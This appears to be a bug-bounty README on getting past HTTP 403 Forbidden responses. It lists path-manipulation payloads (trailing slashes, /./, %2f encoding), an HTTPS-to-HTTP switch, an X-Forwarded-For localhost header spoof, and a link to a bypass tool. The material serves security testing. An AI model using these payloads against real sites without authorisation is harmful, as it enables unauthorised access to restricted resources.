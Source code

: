 ## 403 Bypass
I am sharing all this tips and techniques from my own personal experience there no official references for that

### Directory Based
If you see directory with no slash at end then do these acts there
```
site.com/secret => 403
site.com/secret/* => 200
site.com/secret/./ => 200
```
### File Base
If you see file without any slash at end then do these acts there
```
site.com/secret.txt => 403
site.com/secret.txt/ => 200
site.com/%2f/secret.txt/ => 200
```
### Protocol Base
Well, sound wired but check out the example for better understanding
```
https://site.com/secret => 403
http://site.com/secret => 200
```
## Payloads
```
/
/*
/%2f/
/./
./.
/*/
```
### Header
[https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/](https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/)
```
X-Forwarded-For: 127.0.0.1
```

### Tools
Here is a Tool I found on twitter.
* [https://github.com/yunemse48/403bypasser](https://github.com/yunemse48/403bypasser)

## Proof Of Concept
Well Always look for some references or proof of concept if someone sharing any tips so you may confirm you are not wasting your time at all.
I have some poc video on my YouTube channel for 403 and other Improper access control bugs with those methods. You can check them

YouTube: [Mehedi Hasan Remon](https://www.youtube.com/channel/UCF_yxU7acxUojiGiOAMafQQ/videos?view_as=subscriber)

Author:[@remonsec](https://twitter.com/remonsec)
       [@KathanP19](https://twitter.com/KathanP19)
